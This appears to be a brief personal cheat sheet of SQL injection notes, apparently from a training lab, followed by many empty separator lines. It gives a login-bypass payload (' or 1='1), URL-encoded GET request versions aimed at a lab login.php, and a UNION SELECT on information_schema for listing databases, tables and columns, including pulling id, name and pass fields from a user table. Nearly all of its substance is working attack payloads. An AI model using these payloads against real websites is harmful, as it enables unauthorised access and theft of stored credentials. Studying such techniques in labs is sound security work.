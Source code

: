     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]-------------

    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;

    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;

    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    

    ##Examples:
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;
    SELECT x,x,x FROM session.
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
